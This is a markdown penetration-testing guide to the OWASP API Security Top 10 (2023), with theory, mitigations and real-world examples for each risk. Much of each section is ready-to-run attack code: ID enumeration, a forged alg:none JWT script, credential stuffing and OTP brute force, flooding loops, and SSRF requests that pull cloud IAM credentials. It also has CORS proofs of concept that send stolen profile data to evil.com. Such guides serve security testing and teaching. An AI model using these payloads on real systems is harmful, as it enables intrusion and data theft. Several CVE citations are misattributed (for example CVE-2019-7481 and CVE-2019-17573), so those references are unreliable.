

# OWASP API Security Top 10 (2023)

> **The OWASP API Security Top 10 is the definitive list of the most critical security risks in modern APIs — knowing and testing for all 10 is mandatory for any API pentest.**

---

## 🧠 What Is It?

The Open Web Application Security Project (OWASP) publishes a Top 10 list specifically for APIs, separate from their web app Top 10. The 2023 edition reflects real-world API breaches and bug bounty findings. Every item on this list has caused major data breaches affecting millions of users.

**Why APIs need their own Top 10:**
- APIs expose raw data — no HTML rendering layer to "hide" it
- API auth is more complex (tokens, OAuth, JWTs)
- APIs evolve faster → more versioning, shadow APIs
- REST, GraphQL, SOAP, gRPC all have unique attack surfaces

---

## 📊 Diagram



---

## API1:2023 — Broken Object Level Authorization (BOLA / IDOR)

> **The API doesn't verify that the authenticated user actually owns the object they're requesting.**

### Theory

Every time an API accesses an object (user profile, order, document, message), it should verify the requesting user has permission to access **that specific object**. When it doesn't, an attacker can access any user's data by simply guessing or enumerating object IDs.

This was #1 in 2019 and remains #1 in 2023 because it's extremely common and high impact.

### How to Test

```bash
# Step 1: Create two accounts
# User A: attacker@evil.com → TOKEN_A
# User B: victim@target.com → TOKEN_B (or observe from traffic)

# Step 2: As User A, find your object IDs
curl -H "Authorization: Bearer $TOKEN_A" \
  https://api.target.com/api/v1/users/me
# Response: {"id": 1235, "orders": [{"id": 9001}]}

# Step 3: Using your token, access User B's objects
curl -H "Authorization: Bearer $TOKEN_A" \
  https://api.target.com/api/v1/users/1234   # User B's ID

curl -H "Authorization: Bearer $TOKEN_A" \
  https://api.target.com/api/v1/orders/9000  # User B's order

# Step 4: Enumerate
for ID in $(seq 8990 9010); do
  STATUS=$(curl -s -o /dev/null -w "%{http_code}" \
    -H "Authorization: Bearer $TOKEN_A" \
    "https://api.target.com/api/v1/orders/$ID")
  echo "Order $ID: HTTP $STATUS"
done

# Step 5: Test nested resources
curl -H "Authorization: Bearer $TOKEN_A" \
  "https://api.target.com/api/v1/users/1234/documents"

curl -H "Authorization: Bearer $TOKEN_A" \
  "https://api.target.com/api/v1/users/1234/payment-methods"
```

### Real Payload Examples

```bash
# Horizontal BOLA — same role, different user
GET /api/v1/profile/1234          # Your profile
GET /api/v1/profile/1235          # Someone else's profile → BOLA?

# Access private messages
GET /api/v1/messages/thread/9876  # Replace ID → read other users' DMs

# PATCH/DELETE BOLA — modify/delete other user's data
curl -X PATCH https://api.target.com/api/v1/posts/555 \
  -H "Authorization: Bearer $TOKEN_A" \
  -H "Content-Type: application/json" \
  -d '{"content": "DEFACED"}'

curl -X DELETE https://api.target.com/api/v1/posts/555 \
  -H "Authorization: Bearer $TOKEN_A"
```

### Real CVE / Bug Bounty

- **CVE-2019-7481** — SonicWall BOLA allowing unauthenticated access to all user configs
- **HackerOne Report #321** — Shopify allowed accessing other merchants' customer data via BOLA in orders API
- **Venmo BOLA (2019)** — Public transaction feed exposed all users' payment history including amounts and contacts

### Mitigation

```
✅ Validate object ownership on EVERY request server-side
✅ Use random UUIDs instead of sequential integers
✅ Implement a centralized authorization layer
✅ Log all object access; alert on enumeration patterns
✅ Never trust client-provided IDs without server-side verification
```

---

## API2:2023 — Broken Authentication

> **Weak or flawed authentication mechanisms allow attackers to impersonate legitimate users or bypass auth entirely.**

### Theory

Authentication tells the API "who" is making the request. When broken:
- Credentials are weak and easily guessed
- Tokens are predictable or short-lived tokens are never invalidated
- JWTs have implementation flaws
- Password reset flows can be abused

### How to Test

```bash
# Test 1: No auth required (try without any header)
curl https://api.target.com/api/v1/users/me
# If returns data → missing auth

# Test 2: JWT algorithm confusion
# Decode JWT
echo "eyJhbGciOiJSUzI1NiJ9" | base64 -d
# {"alg":"RS256"} → try HS256 with public key

# Get JWKS
curl https://api.target.com/.well-known/jwks.json

# Test 3: JWT none algorithm
# Original JWT
ORIGINAL_JWT="eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0IiwicGFsZSI6InVzZXIifQ.SIGNATURE"

python3 -c "
import base64, json
header = base64.urlsafe_b64encode(json.dumps({'alg':'none','typ':'JWT'}).encode()).rstrip(b'=').decode()
payload = base64.urlsafe_b64encode(json.dumps({'sub':'1234','role':'admin','exp':9999999999}).encode()).rstrip(b'=').decode()
print(f'{header}.{payload}.')
"

# Test 4: Token in URL (appears in logs)
curl https://api.target.com/api/v1/export?token=eyJhbGc...
# Check Referer header, server logs, browser history

# Test 5: Credential stuffing
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt \
  api.target.com https-post-form \
  "/api/v1/auth/login:{\"username\":\"\^USER\^\",\"password\":\"\^PASS\^\"}:Invalid credentials"

# Test 6: Token replay after logout
TOKEN=$(curl -s -X POST ... | jq -r .token)
curl -X POST https://api.target.com/api/v1/auth/logout -H "Authorization: Bearer $TOKEN"
curl https://api.target.com/api/v1/users/me -H "Authorization: Bearer $TOKEN"
# If still works → tokens not invalidated on logout
```

### JWT none Algorithm Payload

```python
#!/usr/bin/env python3
# forge_jwt.py — forge JWT with alg:none
import base64
import json

def b64url_encode(data):
    if isinstance(data, str):
        data = data.encode()
    return base64.urlsafe_b64encode(data).rstrip(b'=').decode()

# Forge admin token
header = {"alg": "none", "typ": "JWT"}
payload = {
    "sub": "1",           # Admin user ID
    "role": "admin",
    "isAdmin": True,
    "iat": 1700000000,
    "exp": 9999999999     # Far future expiry
}

h = b64url_encode(json.dumps(header, separators=(',', ':')))
p = b64url_encode(json.dumps(payload, separators=(',', ':')))
forged_token = f"{h}.{p}."  # Empty signature

print(f"Forged JWT: {forged_token}")
print(f"\nTest: curl -H 'Authorization: Bearer {forged_token}' https://api.target.com/api/v1/admin/users")
```

### Real CVE

- **CVE-2022-21449** ("Psychic Signatures") — Java ECDSA JWT signature bypass; empty signature accepted
- **CVE-2015-9235** — jwt node.js library algorithm confusion (the original `alg:none` CVE)
- **Auth0 JWT bypass (2020)** — RS256→HS256 confusion allowed forging admin tokens

### Mitigation

```
✅ Pin expected JWT algorithm server-side (never trust alg from header)
✅ Use RS256 with 2048-bit RSA key minimum
✅ Set short expiry (15 min access tokens) + refresh token rotation
✅ Invalidate tokens on logout via token blacklist or Redis
✅ Rate limit login endpoints (5 attempts then lockout)
✅ Require MFA for sensitive operations
```

---

## API3:2023 — Broken Object Property Level Authorization

> **The API exposes more data than needed in responses (excessive exposure) OR accepts undocumented fields that change object state (mass assignment).**

### Theory

This combines two 2019 entries (API3: Excessive Data Exposure + API6: Mass Assignment):

1. **Excessive Exposure:** API returns sensitive fields the client shouldn't see
2. **Mass Assignment:** API blindly applies all request body fields to the data model

### How to Test

```bash
# Part 1: Excessive Data Exposure
# Compare what the frontend SHOWS vs what the API RETURNS
curl -H "Authorization: Bearer $USER_TOKEN" \
  https://api.target.com/api/v1/users/me | jq .
# Shown in UI: name, email
# Response may contain: passwordHash, secretQuestion, internalNotes, isAdmin, ssn, phoneNumber

# Get another user's profile — what do you see?
curl -H "Authorization: Bearer $USER_TOKEN" \
  https://api.target.com/api/v1/users/1234 | jq .
# Should only see public info but may return private fields

# Part 2: Mass Assignment — find hidden writable fields
# Step 1: Register normally, note the response fields
curl -X POST https://api.target.com/api/v1/register \
  -H "Content-Type: application/json" \
  -d '{"username": "attacker", "email": "a@evil.com", "password": "P@ss"}' | jq .
# Response: {"id": 999, "username": "attacker", "email": "a@evil.com", "isAdmin": false, "role": "user", "credits": 0}

# Step 2: Try to write those read-only response fields
curl -X POST https://api.target.com/api/v1/register \
  -H "Content-Type: application/json" \
  -d '{
    "username": "attacker2",
    "email": "b@evil.com",
    "password": "P@ss",
    "isAdmin": true,
    "role": "admin",
    "credits": 9999,
    "emailVerified": true
  }' | jq .

# Step 3: Test PATCH endpoint
curl -X PATCH https://api.target.com/api/v1/users/me \
  -H "Authorization: Bearer $USER_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "isAdmin": true,
    "role": "admin",
    "accountBalance": 1000000,
    "subscription": "enterprise",
    "verified": true
  }' | jq .
```

### Real CVE / Example

- **CVE-2019-17573** — Apache APISIX mass assignment → admin creation
- **HackerOne — Grab** — Excessive data exposure: passenger API returned driver's full name, phone, photo, car details, real-time GPS for any ride ID
- **Twitter API (2022)** — Excessive data exposure via `/1.1/users/show.json` returning private account details

### Mitigation

```
✅ Use allowlists for request fields (never req.body directly)
✅ Use DTOs (Data Transfer Objects) / ViewModels for responses
✅ Explicitly define which fields can be written vs read
✅ Field-level authorization: check if user can see each field
✅ API schema validation: reject unknown fields
✅ Remove sensitive fields before serializing response
```

---

## API4:2023 — Unrestricted Resource Consumption

> **No rate limiting or resource controls allow attackers to overwhelm the API, extract data at scale, or rack up costs.**

### Theory

Without limits, attackers can:
- Brute force passwords indefinitely
- Scrape all user data in hours
- Trigger expensive operations (PDF generation, SMS sending, AI API calls)
- Cause DoS via high request volume or expensive queries
- Run up third-party API costs (AWS, Twilio, SendGrid)

### How to Test

```bash
# Test 1: Find the rate limit threshold
for i in $(seq 1 50); do
  RESULT=$(curl -s -o /dev/null -w "%{http_code}" \
    -X POST https://api.target.com/api/v1/auth/login \
    -H "Content-Type: application/json" \
    -d '{"username": "admin", "password": "wrong"}')
  echo "Request $i: HTTP $RESULT"
  if [ "$RESULT" = "429" ]; then
    echo "Rate limited at request $i"
    break
  fi
done

# Test 2: SMS/email resource abuse (send 1000 OTPs)
for i in $(seq 1 1000); do
  curl -s -X POST https://api.target.com/api/v1/auth/send-otp \
    -H "Content-Type: application/json" \
    -d '{"phone": "+1234567890"}' &
done
wait
# Each OTP may cost $0.01 via Twilio → $10 bill in seconds

# Test 3: Expensive endpoint abuse
# Find operations that are computationally expensive
# - PDF/report generation
# - Image processing / resize
# - Data export
# - AI/ML inference calls
# - Complex search queries

# Flood expensive endpoint
for i in $(seq 1 100); do
  curl -s -X POST https://api.target.com/api/v1/reports/generate \
    -H "Authorization: Bearer $TOKEN" \
    -H "Content-Type: application/json" \
    -d '{"type": "full_export", "format": "pdf"}' &
done

# Test 4: Check response headers for rate limit info
curl -v https://api.target.com/api/v1/users 2>&1 | grep -i "x-rate\|retry\|limit"

# Test 5: Large payload DoS
python3 -c "print('A' * 100000000)" | \
  curl -X POST https://api.target.com/api/v1/search \
    -H "Content-Type: application/json" \
    -d @-
```

### Mitigation

```
✅ Rate limit by: IP, user ID, API key (multiple layers)
✅ Implement exponential backoff after failures
✅ Set max payload size limits (e.g., 1MB)
✅ Set query complexity limits (GraphQL)
✅ Set response size limits (pagination with max page size)
✅ Monitor and alert on cost anomalies for paid services
✅ Use CAPTCHA after threshold
✅ Timeout long-running operations
```

---

## API5:2023 — Broken Function Level Authorization

> **The API exposes admin or privileged functions to regular users who can call them if they know the URL.**

### Theory

This is **vertical privilege escalation**. While BOLA (API1) is about accessing other users' *objects*, BFLA is about calling *functions* (endpoints) you shouldn't have access to. Developers often protect the UI but forget to lock down the API.

```
User → GET /api/v1/users/me           ← Works (correct)
User → GET /api/v1/admin/users        ← Should 403, sometimes doesn't
User → DELETE /api/v1/users/5678      ← Should 403, sometimes doesn't
User → POST /api/v1/users/5678/ban    ← Admin function, check access
```

### How to Test

```bash
# Step 1: Find admin endpoints
# - Look in JS files for admin routes
# - Check Swagger spec for admin-tagged operations
# - Try common admin patterns
ADMIN_PATHS=(
  "/api/v1/admin"
  "/api/v1/admin/users"
  "/api/v1/admin/stats"
  "/api/v1/admin/config"
  "/api/v1/management"
  "/api/v1/internal"
  "/api/v1/users/all"
  "/api/v1/users/list"
  "/api/v1/debug"
  "/api/v1/console"
)

for PATH in "${ADMIN_PATHS[@]}"; do
  STATUS=$(curl -s -o /dev/null -w "%{http_code}" \
    -H "Authorization: Bearer $USER_TOKEN" \
    "https://api.target.com$PATH")
  echo "$PATH: HTTP $STATUS"
done

# Step 2: Test HTTP methods on regular endpoints
for METHOD in GET POST PUT PATCH DELETE; do
  echo -n "$METHOD /api/v1/users/5678: "
  curl -s -o /dev/null -w "%{http_code}\n" \
    -X $METHOD \
    -H "Authorization: Bearer $USER_TOKEN" \
    "https://api.target.com/api/v1/users/5678"
done

# Step 3: Test role manipulation in JWT payload
# Decode JWT, find role field
echo "eyJzdWIiOiIxMjM0IiwicGFsZSI6InVzZXIifQ" | base64 -d
# {"sub":"1234","role":"user"}
# Forge with role: "admin" if weak secret

# Step 4: Test role parameter in request body
curl -X POST https://api.target.com/api/v1/users/update-role \
  -H "Authorization: Bearer $USER_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"userId": "my-user-id", "role": "admin"}'

# Step 5: Test different API versions (v1 may have less auth than v3)
curl -H "Authorization: Bearer $USER_TOKEN" \
  https://api.target.com/api/v1/admin/users
curl -H "Authorization: Bearer $USER_TOKEN" \
  https://api.target.com/api/v2/admin/users
```

### Real CVE / Example

- **CVE-2021-20114** — TCExam: regular users could call admin API endpoints
- **Bug Bounty — Uber (2016)** — Regular Uber driver could promote themselves to admin via undocumented `updateRole` API endpoint
- **GitLab BFLA (2020)** — Non-admin users could trigger admin-only operations via API

### Mitigation

```
✅ Default-deny: all endpoints require explicit permission grant
✅ Separate admin API from user API (different server/port/subdomain)
✅ Role-based access control (RBAC) enforced server-side
✅ Never rely on client-side hiding of admin UI elements
✅ Test all endpoints with all role levels
✅ Use API gateway policies for function-level authorization
```

---

## API6:2023 — Unrestricted Access to Sensitive Business Flows

> **Attackers can automate legitimate business processes at scale to cause harm — buying all stock, using unlimited coupons, mass account creation, OTP enumeration.**

### Theory

These aren't traditional "injection" bugs — the API is working as designed. The problem is no protection against **automation at scale** or **abuse of business logic**:

- E-commerce: buy out entire inventory before humans can, resell at profit
- Promo codes: use same promo code unlimited times
- OTP: enumerate all 6-digit codes (1,000,000 attempts, no rate limit)
- Referral programs: create 1000 fake accounts for referral bonuses
- Voting/rating: automate upvotes/downvotes

### How to Test

```bash
# Test 1: Promo code reuse
curl -X POST https://api.target.com/api/v1/orders/apply-promo \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"promoCode": "SAVE50", "orderId": "order-001"}'
# Apply again after order completes:
curl -X POST https://api.target.com/api/v1/orders/apply-promo \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"promoCode": "SAVE50", "orderId": "order-002"}'

# Test 2: OTP brute force (6-digit = 1,000,000 possibilities)
for CODE in $(seq -w 000000 999999 | head -1000); do
  RESULT=$(curl -s -X POST https://api.target.com/api/v1/auth/verify-otp \
    -H "Content-Type: application/json" \
    -d "{\"phone\": \"+1234567890\", \"otp\": \"$CODE\"}" | jq -r .success)
  if [ "$RESULT" = "true" ]; then
    echo "OTP FOUND: $CODE"
    break
  fi
done

# Test 3: Race condition — concurrent requests for limited stock
# Buy last item simultaneously from multiple connections
for i in $(seq 1 10); do
  curl -s -X POST https://api.target.com/api/v1/cart/checkout \
    -H "Authorization: Bearer $TOKEN_$i" \
    -H "Content-Type: application/json" \
    -d '{"itemId": "limited-edition-001", "qty": 1}' &
done
wait

# Test 4: Referral abuse — mass account creation
for i in $(seq 1 100); do
  curl -s -X POST https://api.target.com/api/v1/register \
    -H "Content-Type: application/json" \
    -d "{\"email\": \"fake$i@temp-mail.com\", \"referralCode\": \"MYCODE\", \"password\": \"P@ss123\"}"
done
# Check if referral credits accumulate

# Test 5: Negative quantity / price manipulation
curl -X POST https://api.target.com/api/v1/cart/add \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"itemId": "product-123", "quantity": -1}'
# If total becomes negative → free money

curl -X POST https://api.target.com/api/v1/orders \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"items": [{"id": "prod-123", "price": 0.01, "qty": 1}]}'
# Server-side price validation?
```

### Real Examples

- **Starbucks (2015)** — Race condition allowed unlimited free coffee via simultaneous reload requests
- **TicketMaster bots** — Automated ticket purchasing before real fans
- **Various e-commerce** — Negative quantity exploits for credits
- **Bug Bounty — Airbnb** — Referral code abuse for unlimited credit

### Mitigation

```
✅ Validate business logic server-side (negative quantities, price checks)
✅ Idempotency keys to prevent duplicate submissions
✅ Distributed locks for race conditions (Redis mutex)
✅ OTP: max 3-5 attempts, then require new OTP
✅ Promo codes: server-side usage counter per user/code
✅ CAPTCHAs at business-critical flows
✅ Device fingerprinting to detect mass account creation
✅ Implement fraud detection / anomaly detection
```

---

## API7:2023 — Server Side Request Forgery (SSRF)

> **The API fetches a URL or makes a request to a server-side resource based on attacker-controlled input — allowing access to internal services, cloud metadata, and internal network scanning.**

### Theory

When an API accepts a URL as input and fetches it server-side (webhooks, URL preview, import from URL, file download), an attacker can point it at:
- AWS/GCP/Azure **metadata services** → steal IAM credentials
- Internal services (Redis, Elasticsearch, MongoDB)
- Internal admin panels not exposed to the internet
- Other cloud services in the same VPC

### How to Test

```bash
# Step 1: Find SSRF entry points
# Look for parameters named:
# url, link, src, href, path, redirect, next, target, dest, page, file, fetch, load, import, callback, webhook, feed, endpoint

# Step 2: Test with simple HTTP server
# Start listener: python3 -m http.server 8888
# Or use Burp Collaborator / interactsh

# Basic SSRF test
curl -X POST https://api.target.com/api/v1/webhooks/register \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"url": "http://YOUR_SERVER:8888/ssrf-test", "event": "payment.completed"}'

# Step 3: AWS metadata (the jackpot)
# IMDSv1 (no auth required)
curl -X POST https://api.target.com/api/v1/fetch \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"url": "http://169.254.169.254/latest/meta-data/"}'

# Get IAM credentials
curl -X POST https://api.target.com/api/v1/fetch \
  -H "Content-Type: application/json" \
  -d '{"url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/"}'
# Returns: role name, then:
curl -X POST https://api.target.com/api/v1/fetch \
  -H "Content-Type: application/json" \
  -d '{"url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME"}'
# Returns: AccessKeyId, SecretAccessKey, Token → full AWS access!

# GCP metadata
curl -X POST https://api.target.com/api/v1/fetch \
  -H "Content-Type: application/json" \
  -d '{"url": "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token", "headers": {"Metadata-Flavor": "Google"}}'

# Azure metadata
curl -X POST https://api.target.com/api/v1/fetch \
  -H "Content-Type: application/json" \
  -d '{"url": "http://169.254.169.254/metadata/instance?api-version=2021-02-01", "headers": {"Metadata": "true"}}'

# Step 4: Internal port scanning
for PORT in 22 80 443 3306 5432 6379 8080 8443 9200 27017; do
  echo -n "Port $PORT: "
  curl -s -X POST https://api.target.com/api/v1/fetch \
    -H "Content-Type: application/json" \
    -d "{\"url\": \"http://127.0.0.1:$PORT\"}" | head -c 100
  echo
done

# Step 5: Internal services
# Redis
curl -X POST https://api.target.com/api/v1/fetch \
  -H "Content-Type: application/json" \
  -d '{"url": "http://127.0.0.1:6379"}'

# Elasticsearch
curl -X POST https://api.target.com/api/v1/fetch \
  -H "Content-Type: application/json" \
  -d '{"url": "http://127.0.0.1:9200/_cat/indices"}'

# Kubernetes API
curl -X POST https://api.target.com/api/v1/fetch \
  -H "Content-Type: application/json" \
  -d '{"url": "https://kubernetes.default.svc/api/v1/namespaces"}'

# Step 6: SSRF bypass techniques
# Blocked: http://169.254.169.254/ → try:
# http://169.254.169.254.evil.com (DNS rebinding)
# http://[::ffff:169.254.169.254]  (IPv6 mapped)
# http://0251.0376.0251.0376       (octal)
# http://0xA9FEA9FE               (hex)
# http://2852039166               (decimal)
# http://169.254.169.254#@evil.com (URL fragment)
```

### Real CVE / Examples

- **CVE-2021-26855** — Microsoft Exchange SSRF (ProxyLogon) leading to RCE, exploited by nation-state APTs
- **Capital One Breach (2019)** — AWS SSRF via IMDSv1 → IAM role credentials → S3 bucket dump → 100M customer records
- **GitLab SSRF (CVE-2021-22214)** — SSRF in CI/CD pipeline webhook allowed internal network access

### Mitigation

```
✅ Allowlist of permitted URLs/domains for fetching
✅ Block private IP ranges: 169.254.0.0/16, 10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16
✅ Use IMDSv2 on AWS (requires PUT request + header token — harder to abuse via SSRF)
✅ Resolve and validate DNS before making request
✅ Strip sensitive headers before forwarding requests
✅ Network segmentation: API servers shouldn't reach metadata endpoints
✅ WAF rules for metadata IP addresses
```

---

## API8:2023 — Security Misconfiguration

> **Insecure default settings, missing security headers, open CORS policies, enabled debug endpoints, and verbose error messages leave APIs vulnerable.**

### Theory

Misconfiguration is the "lazy" vulnerability — not a code logic bug but a configuration failure:
- CORS set to `*` → any website can make authenticated API calls on user's behalf
- Debug endpoints left enabled → expose internal state, trigger actions
- Stack traces in errors → leak architecture, versions, paths
- HTTP allowed alongside HTTPS → credential interception
- Default credentials → immediate compromise
- Unnecessary HTTP methods enabled (TRACE)

### How to Test

```bash
# Test 1: CORS misconfiguration
curl -s -I https://api.target.com/api/v1/users \
  -H "Origin: https://evil.com" \
  -H "Authorization: Bearer $TOKEN" | grep -i "access-control"
# Dangerous responses:
# Access-Control-Allow-Origin: * (with credentials = CORS issue)
# Access-Control-Allow-Origin: https://evil.com (reflecting arbitrary origin)
# Access-Control-Allow-Credentials: true + wildcard origin = critical

# Proof of concept for CORS theft
cat > cors_poc.html << 'EOF'
<script>
fetch('https://api.target.com/api/v1/users/me', {
  credentials: 'include',
  headers: {'Authorization': 'Bearer TOKEN'}
})
.then(r => r.json())
.then(d => fetch('https://evil.com/steal?data=' + JSON.stringify(d)));
</script>
EOF

# Test 2: Debug endpoints
DEBUG_PATHS=(
  "/api/v1/debug"
  "/api/v1/health"
  "/api/v1/metrics"
  "/api/v1/actuator"
  "/api/v1/actuator/env"
  "/api/v1/actuator/heapdump"
  "/api/v1/actuator/beans"
  "/api/v1/actuator/mappings"
  "/api/v1/info"
  "/api/v1/status"
  "/api/v1/server-info"
  "/api/v1/phpinfo"
  "/.env"
  "/api/console"
)

for PATH in "${DEBUG_PATHS[@]}"; do
  STATUS=$(curl -s -o /dev/null -w "%{http_code}" "https://api.target.com$PATH")
  if [ "$STATUS" != "404" ]; then
    echo "Found: $PATH → HTTP $STATUS"
  fi
done

# Test 3: TRACE method (may reflect headers)
curl -X TRACE https://api.target.com/api/v1/users \
  -H "Authorization: Bearer $TOKEN" -v

# Test 4: HTTP (non-TLS)
curl http://api.target.com/api/v1/users  # Should redirect to HTTPS
curl -k https://api.target.com/api/v1/users  # Check TLS version
# Check: nmap --script ssl-enum-ciphers -p 443 api.target.com

# Test 5: Verbose error messages
curl https://api.target.com/api/v1/users?id=1' -v
# Look for: stack traces, database names, framework names, file paths, version numbers

# Test 6: Security headers check
curl -s -I https://api.target.com | grep -iE "strict-transport|x-frame|x-content-type|content-security|x-xss|permissions-policy"
```

### Misconfigured CORS Example Payload

```javascript
// Attacker hosts this on evil.com
// Victim visits evil.com while logged into target.com
fetch('https://api.target.com/api/v1/users/me', {
  method: 'GET',
  credentials: 'include'  // Sends target.com cookies
})
.then(response => response.json())
.then(data => {
  // Exfiltrate victim's profile data
  new Image().src = 'https://evil.com/log?d=' + encodeURIComponent(JSON.stringify(data));
});
```

### Real CVE / Examples

- **Spring Boot Actuator exposed** — Many production APIs expose `/actuator/env` → full environment variables including secrets
- **CVE-2018-1271** — Spring MVC directory traversal via misconfiguration
- **Countless bug bounties** — CORS wildcard + credentials on authenticated APIs is consistently high-severity

### Mitigation

```
✅ CORS: explicit allowlist of trusted origins; never wildcard + credentials
✅ Disable TRACE and other unnecessary methods
✅ Remove debug/actuator endpoints in production
✅ Generic error messages in API responses; full detail in server logs only
✅ Security headers: HSTS, X-Content-Type-Options, X-Frame-Options
✅ TLS only: redirect HTTP → HTTPS; HSTS preloading
✅ Run security configuration scanners (SecurityHeaders.com, testssl.sh)
✅ Change all default credentials; scan for defaults with tools like changeme
```

---

## API9:2023 — Improper Inventory Management

> **Organizations don't track all their APIs — old versions, debug endpoints, shadow APIs, and third-party APIs become unmonitored attack surfaces.**

### Theory

An organization may have:
- API v1, v2, v3 — only v3 is actively maintained; v1, v2 still work but have old vulnerabilities
- Shadow APIs — API endpoints deployed by developers without going through security review
- Third-party APIs embedded in the product with their own vulnerabilities
- Mobile app APIs that were never properly deprecated
- Debug/test endpoints deployed to production accidentally

### How to Test

```bash
# Test 1: Version enumeration
for VERSION in v1 v2 v3 v4 v5 v6 v7 v8 v9 v10 v1.0 v1.1 v2.0 beta alpha dev test; do
  STATUS=$(curl -s -o /dev/null -w "%{http_code}" \
    "https://api.target.com/api/$VERSION/users")
  if [ "$STATUS" != "404" ]; then
    echo "Version $VERSION: HTTP $STATUS"
  fi
done

# Test 2: Old API with weaker auth
# v3 requires JWT; does v1 require only API key? Or nothing?
curl "https://api.target.com/api/v1/users"                      # No auth
curl -H "X-API-Key: test" "https://api.target.com/api/v1/users" # API key

# Test 3: Wayback Machine for old APIs
curl "https://web.archive.org/cdx/search/cdx?url=api.target.com/*&output=text&fl=original&collapse=urlkey" \
  | grep "/api/" | sort -u | head -50

# Test 4: GitHub/GitLab search for internal API docs
# Search: "api.target.com" "swagger" OR "openapi" OR "postman"
# Search: "api.target.com/v1" site:github.com

# Test 5: Subdomain enumeration for shadow APIs
# shadow APIs often on subdomains: api-dev, api-test, api-internal, api-staging
subfinder -d target.com | grep api
amass enum -d target.com | grep api
# Test discovered subdomains:
for SUB in api-dev api-test api-internal api-staging api-beta api-demo api-qa; do
  STATUS=$(curl -s -o /dev/null -w "%{http_code}" "https://$SUB.target.com/api/v1/users")
  echo "$SUB.target.com: HTTP $STATUS"
done

# Test 6: Mobile app — older app versions may use deprecated API endpoints
# Decompile old APK version from APKPure/APKMirror
# Check for API calls to deprecated endpoints
```

### Real Examples

- **Peloton API (2021)** — v1 API endpoint left publicly accessible, returning all user data including private account info
- **US Postal Service API (2018)** — Undocumented API endpoint exposed 60M user accounts
- **T-Mobile (2021)** — Legacy API from 2010 with no auth returned customer data

### Mitigation

```
✅ API inventory: catalog ALL APIs (version, owner, last security review, deprecation date)
✅ API gateway: all APIs must route through central gateway
✅ Sunset policy: deprecated versions have hard deletion date
✅ DAST scanning on all discovered API endpoints
✅ Disable old API versions (return 410 Gone not 200)
✅ Regular recon of your own attack surface
✅ Penetration testing of ALL versions, not just current
```

---

## API10:2023 — Unsafe Consumption of APIs

> **When your API trusts data from third-party APIs without validation, an attacker who compromises or influences that upstream API can attack your users.**

### Theory

Modern applications consume dozens of third-party APIs (payment processors, identity providers, shipping APIs, data enrichment services). When the application:
- Trusts all data from third-party API without validation
- Passes third-party data directly to internal systems
- Doesn't handle third-party API failures gracefully

An attacker controlling the third-party data source (or performing a MitM) can inject malicious data.

### How to Test

```bash
# Scenario: App uses a third-party geocoding API to convert addresses
# Third-party API is under attacker control (or compromised)
# Test if returned data is sanitized before use

# Step 1: Identify third-party API calls in traffic
# Use Burp passive scanning; look for requests to:
# maps.googleapis.com, api.stripe.com, api.twilio.com, etc.

# Step 2: If you can influence the data (webhook from third-party)
# Set up malicious webhook server
cat > webhook_server.py << 'EOF'
from flask import Flask, jsonify
app = Flask(__name__)

@app.route('/webhook/payment', methods=['POST'])
def webhook():
    # Return malicious data that app might trust
    return jsonify({
        "status": "verified",
        "user": {
            "email": "victim@target.com",
            "role": "admin",        # Try to escalate via trusted data
            "verified": True
        },
        "amount": -9999,            # Negative amount for credit
        "address": "<script>alert(1)</script>",  # XSS in trusted data
        "sql_field": "'; DROP TABLE users;--"    # SQLi in trusted data
    })

app.run(host='0.0.0.0', port=8888)
EOF

# Step 3: Test if third-party redirect is validated
# OAuth: open redirect via redirect_uri
curl "https://api.target.com/api/v1/auth/oauth/callback?code=AUTH_CODE&redirect_uri=https://evil.com"

# Step 4: SSRF via third-party callback URL
curl -X POST https://api.target.com/api/v1/integrations/webhook \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"callbackUrl": "http://169.254.169.254/latest/meta-data/"}'

# Step 5: Test error handling when third-party is down
# If third-party returns 500, does app expose sensitive data in error?
```

### Real Examples

- **SolarWinds Supply Chain Attack (2020)** — Malicious code in third-party software update → compromised 18,000+ organizations
- **npm supply chain attacks** — Malicious packages injected into apps that consume npm API
- **Magecart attacks** — JavaScript skimmers injected via compromised third-party CDN APIs

### Mitigation

```
✅ Validate ALL data from third-party APIs like untrusted user input
✅ Schema validation on third-party API responses
✅ Sanitize/escape data before using in queries or rendering
✅ Use TLS and verify certificates for all third-party API calls
✅ Implement circuit breakers for third-party dependency failures
✅ Minimal privilege: only request scopes you need from third-party
